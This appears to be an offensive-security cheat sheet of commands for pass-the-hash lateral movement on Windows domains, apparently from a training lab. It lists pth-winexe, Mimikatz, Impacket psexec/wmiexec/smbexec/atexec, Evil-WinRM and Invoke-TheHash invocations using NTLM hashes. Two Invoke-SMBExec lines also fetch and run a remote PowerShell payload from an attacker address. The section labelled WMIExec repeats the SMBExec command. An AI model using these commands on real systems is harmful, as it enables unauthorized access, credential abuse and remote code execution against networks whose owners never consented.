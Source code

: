 ```bash
#-pth-winexe
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd

# mimikatz, need admin privilege/run as admin
Invoke-Mimikatz -Command '"sekurlsa::pth /user:username /domain:domain.tld /ntlm:NTLMhash /run:powershell.exe"' 

# impacket binary for windows
# down:https://github.com/ropnop/impacket_static_binaries/releases/tag/0.9.21-dev-binaries
psexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.my.domain.local

wmiexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local

## cmd.exe/powershell.exe not valid, need to specify a command
atexec_windows.exe -hashes ":b38ff50264b74508085d82c69794a4d8" svcadmin@dcorp-mgmt.dollarcorp.moneycorp.local 'whoami'

## Impacket py
## https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py

## psexec.py
//获取半交互式shell
python3 psexec.py -hashes [LMhash]:NThash username@ipaddress 
//非交互式执行命令
python3 psexec.py -hashes [LMhash]:NThash username@ipaddress "command"

## wmiexec.py
//获取半交互式shell
python3 wmiexec.py -hashes [LMhash]:NThash username@ipaddress
//非交互式执行命令
python3 wmiexec.py -hashes [LMhash]:NThash username@ipaddress "command"

## smbexec.py
//获取半交互式shell
python3 smbexec.py -hashes [LMhash]:NThash username@ipaddress

## atexec.py
//非交互式执行命令
python3 atexec.py -hashes [LMhash]:NThash username@ipaddress "command"

# Evil-WinRM
evil-winrm -u <username> -H <Hash> -i <IP>

# Invoke-Thehash
## https://github.com/Kevin-Robertson/Invoke-TheHash
## SMBexec
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose

## WMIExec
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose

## SMBClient
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose

## SMBEnum
```